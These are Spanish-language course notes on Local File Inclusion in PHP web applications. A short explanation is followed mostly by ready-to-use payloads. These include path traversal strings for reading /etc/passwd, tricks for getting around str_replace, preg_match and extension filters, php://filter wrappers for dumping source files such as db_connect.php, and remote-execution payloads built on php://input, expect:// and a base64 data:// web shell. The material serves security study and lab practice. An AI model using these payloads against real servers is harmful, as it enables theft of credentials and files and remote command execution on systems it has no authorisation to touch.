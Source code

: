 # LFI

Tags: #LFI #DirectoryPathTraversal 


La vulnerabilidad **Local File Inclusion** (**LFI**) es una vulnerabilidad de seguridad informática que se produce cuando una aplicación web **no valida adecuadamente** las entradas de usuario, permitiendo a un atacante **acceder a archivos locales** en el servidor web.

En muchos casos, los atacantes aprovechan la vulnerabilidad de LFI al abusar de parámetros de entrada en la aplicación web. Los parámetros de entrada son datos que los usuarios ingresan en la aplicación web, como las URL o los campos de formulario. Los atacantes pueden manipular los parámetros de entrada para incluir rutas de archivo local en la solicitud, lo que puede permitirles acceder a archivos en el servidor web. Esta técnica se conoce como “**Path Traversal**” y se utiliza comúnmente en ataques de LFI.

En el ataque de Path Traversal, el atacante utiliza caracteres especiales y caracteres de escape en los parámetros de entrada para navegar a través de los directorios del servidor web y acceder a archivos en ubicaciones sensibles del sistema.

Por ejemplo, el atacante podría incluir “**../**” en el parámetro de entrada para navegar hacia arriba en la estructura del directorio y acceder a archivos en ubicaciones sensibles del sistema.

Para prevenir los ataques LFI, es importante que los desarrolladores de aplicaciones web validen y filtren adecuadamente la entrada del usuario, limitando el acceso a los recursos del sistema y asegurándose de que los archivos sólo se puedan incluir desde ubicaciones permitidas. Además, las empresas deben implementar medidas de seguridad adecuadas, como el cifrado de archivos y la limitación del acceso de usuarios no autorizados a los recursos del sistema.

A continuación, se os proporciona el enlace directo a la herramienta que utilizamos al final de esta clase para abusar de los ‘**Filter Chains**‘ y conseguir así ejecución remota de comandos:

- **PHP Filter Chain Generator**: [https://github.com/synacktiv/php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator)
- [Lab-LFI](https://github.com/NetsecExplained/docker-labs)

```bash 
LFI  --> Incluyes archivos locales de la maquina como:
	1. /etc/passwd
	2. /etc/hosts
	3. /etc/hostname 

# Debemos de tener un parametro '?page=' para poder ver si existe el LFI

1. Se encuentran en CMS (Gestores de contenido) como WordPress
2. Plugins 

En el LFI podemos usar:
1. 'Path Traversal' para evadir algunos filtros 
2. Wrappers
```

## Path Traversal 

```bash 
❯ /etc/passwd                       # Desde la raiz cargamos el archivo 
❯ ../../../../etc/passwd            # Nos salimos de el dir y apuntamos al archivo 
❯ ....//....//....//etc/passwd      # Evitamos el filtro de 'str_replace' 

# Evitar el filtro 'preg_match' colocando barras y puntos
❯ /etc/////passwd                   # Colocar muchas barras hacer que no haga match 
❯ /etc//./passwd                              

# Si fuera un comando como 'cat' podriamos usar '?' para evadir el 'preg_match'
❯ /et?//??sswd 
❯ /??c/pas??? 

# Cuando se concatena una extension como '.php' al archivo a buscar, podemos usar un NULL Byte, esto sirve en versiones menores a 5.3 en PHP.
❯ /etc/passwd%00                    # Forma de colocar un 'Null Byte'

# Cuando existe un 'substr' en el codigo que hace match con alguna extension, podemos evadir el match de la siguiente manera
❯ /etc/test.txt/.                   # Colocaremos '/.' al final para que no exista el match con la extension '.txt'               
```

## Wrappers en la URL de la Web

```bash 
# Los Wrappers nos ayudan a interpretar el codigo y no a ejecutarlo 
# Archivos importantes que podemos encodear con el filtro 
a) index.php
b) admin/db_connect.php


1. # Este filtro nos ayuda a representar el contenido en base64 el cual su resultado lo guardamos en un archivo llamado 'data'
❯ php://filter/convert.base64-encode/resourse=
	❯ cat data | base64 -d | sponge data 
	# d = decodear la base64 
	# sponge = Para ingresar el output en el mismo archivo llamado 'data'

2. # Este wrapper rota cada caracter en 13 posiciones el cual su resultado lo guardamos en un archivo llamado 'data'
❯ php://filter/read=string.rot13/resource=
	❯ cat data | tr '[c-za-bC-ZA-B]' '[p-za-oP-ZA-O]'   # Debemos de empezar con la primer letra que nos aparezca en el output y en la segunda parte colocarnos en la treceaba posicion 

3. # Conversion a nivel de encoding para que no sea interpretado y se muestre en la web
❯ php://filter/convert.iconv.utf-8.utf-16/resource=
```

## Wrappers para hacer un RCE

```bash
# Metodo POST
❯ php://input                   # Debemos de cambiar la peticion a POST en 'Burpsuite' para lograr mandar comandos 
	<?php system('whoami'); ?> # Esto debe de ir en el cuerpo de 'Burpsuite' o el siguiente:
	<?php system($_GET["cmd"]); ?>


# Metodo GET
❯ expect://whoami               # Este wrapper ayuda a inyectar comandos 


# En este wrapper debemos de pasarle una cadena en base64, la cadena es el php de arriba que tiene system(GET)
❯ data://text;plain,base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+
❯ data://text;plain,base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2b&cmd=whoami
	# + = %2b

# Si la cadena esta en base64, con este wrapper podemos decodificarlo
❯ php://filter/convert.base64-decode/resourse=
# Si al momento de usar el wrapper pasado nos regresa un error, podemos hacer lo siguiente:
❯ php://filter/convert.iconv.UTF8.UTF7|convert.base64-decode/resource=
```